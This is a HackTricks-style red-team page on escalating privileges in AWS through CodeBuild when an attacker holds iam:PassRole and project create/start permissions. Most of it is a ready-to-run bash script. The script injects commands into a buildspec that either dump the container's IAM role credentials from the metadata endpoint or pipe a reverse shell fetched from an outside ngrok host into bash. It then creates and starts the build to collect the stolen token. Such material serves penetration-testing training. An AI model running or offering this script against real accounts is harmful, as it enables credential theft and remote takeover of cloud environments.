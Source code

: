 # AWS - Codebuild Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## codebuild

Get more info in:

{% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

An attacker with the **`iam:PassRole`, `codebuild:CreateProject`, and `codebuild:StartBuild` or `codebuild:StartBuildBatch`** permissions would be able to **escalate privileges to any codebuild IAM role** by creating a running one.

{% tabs %}
{% tab title="Example1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
    \"name\": \"codebuild-demo-project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
```